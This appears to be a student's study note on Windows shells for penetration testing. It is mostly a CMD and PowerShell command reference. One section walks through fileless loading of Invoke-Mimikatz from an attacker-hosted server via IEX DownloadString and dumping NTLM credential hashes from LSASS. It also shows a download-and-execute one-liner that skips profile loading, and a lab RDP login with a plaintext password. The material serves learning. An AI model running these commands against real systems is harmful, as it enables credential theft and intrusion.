 ## concept of Windows

### CMD(Command prompt)
- CLI/Shell 

### Powershell
- 2006
- CLI 
- accessible to .NET framework
- more functions to do pentest than CMD

### Windows Terminal
- not new shell, 
  different shell emulator(cmd, powershell, Azure shell, bash(!))
- it's gonna be used much in the future
  - supported over 20H1(19041)



### .NET
- windows development flatform
  - runtime (code execution in final phase)
  - groups of programming languages 
  - libraries
  - dev tools 
- I can do programing or data transfer 
- Web-cloud-mobile all connected
  - you can do anything in Windows with .NET 
  - Developer use much, attacker too


### Commands
- cmdlet(Commandlet) : powershell basic command
  - format : <verb>-<noun>
    - Get-Content : get in linux
    - Get-Help : --help
  - but Alias for linux users to simplify
    - Get-Alias cat 
      - Get-Content = cat
  

### powershell script(.ps1, .psd, .psm, etc.)
- in-memory execution
  - no need to download file
  - get code(.ps1) from another server hosting and load in Powershell.exe's memory 
    - and then use functions in .ps1
- Fileless code possible



### Powershell vs CMD  
- the difference of commands 
xfreerdp /u:Administrator /p:'Password123!' /v:172.31.161.40 /dynamic-resolution
  - Run both as Administrator
```
#### Powershell
1.
Get-Help ls
Get-Help -Detailed ls 
Get-Help -Examples ls 
  - some commands don't have examples 
2. clear
3. cat 
  - alias : Get-Content
4. pwd
5. ls
- they shows file permissions 
  ls -Force : hidden files
6. echo "Hello Jimmy"
7. Get-Process(ps)
  - Get-Process | Where-Object{$_.ProcessName -eq "svchost"}
    - $_. means resursive
    - SI : session ID 
8. head/tail
  cat -First 2 username.txt
  -Last : tail
9. mv, cp, rm

#### CMD
1. dir /?
2. cls
3. type 
4. cd
5. dir
  dir /s : tree recursively
  dir /a:h : hidden files
  or dir /a
    attributes:hiddenfile
6. echo Hello Jimmy
  - no need to "" cause it contains ""
9. move, copy, del

#### same
- upper case doesn't matter in Windows

hostname 
  - this is binary : C:\Windows\system32\HOSTNAME.exe

whoami

systeminfo
    
mkdir
```



## In-Memory Execution
```
KALI
wget https://raw.githubusercontent.com/BC-SECURITY/Empire/main/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1
python3 -m http.server 80

PS
IEX(New-Object Net.WebClient).DownloadString('http://10.8.0.129/Invoke-Mimikatz.ps1')
```
- means 
  - IEX: InvokeExpression - I'm gonan execute ()
  - I'm gonna create New object - webclient object in .NET
  - download string from outside and load to memory
- from now on, I can use functions in .ps1 
- Invoke-Mimikatz -DumpCreds
  - you can get all local users's NT hashed password(NTLM) out of LSASS 
    - it seems like MD5 (hash-identifier results's too)
  - DPAI too?
  
- function name is usally same with script name
  - when you look at powershell script's source code
```ps1
function Invoke-Mimikatz{
...
# Param
[CmdletBinding(DefaultParameterSetName="DumpCreds")]
Param(
    [Parameter(PrameterSetName = "DumpCreds", Position = 1)]
    [Switch]
    $DumpCreds,
    
    ...
)

# you can give $PEBytes param, etc.
$RemoteScriptBlock = {
  [CmdletBinding()]
  Param(
    [Parameter(Position = 0, Mandatory = $true)]
    [String]
    $PEBytes64, 

    ..
  )
}
}

```

- Get-help Invoke-Mimikatz 
  - -Detailed
  - -Examples
    - against local computer or two remote computers, etc.
   
===================
# Commands
## in powershell
```
ls -Force : hidden file
```

```
- head  
cat -First 5 username.txt
Get-Service | select -First 10
```

```
Get-Service | Where-Object {$_.name -eq "ALG"}
```

- grep
```
| Select-String passw
or
| Select-String -Pattern 'passw'


get-service | Where-Object {$_.Name -match "abyss"} 
: contains abyss 
get-service | Where-Object {$_.Name -notmatch "abyss"}
: exclude
```

- wget
```
wget(alias : invoke-webrequest) http://10.8.0.129/accesschk.exe -OutFile C:\Users\minseok.kim\Documents\accesschk.exe
  -outfile : need to put full path 
```

- tree
```
tree /F
```


## CMD
```
dir /s FILENAME : search file
```


![alt text](image-12.png)
- if you're not allowed execute .\.ps1 directly(error), download from internet and execute with invoke expression with `-nop`  
```powershell
powershell -nop -c "iex(new-object new.webclient).Downloadstring('http://')"
-nop : no load profile
```

 
- cmd can't execute wget, so load powershell first
```
powershell wget http:// -outfile .\test.aspx
```

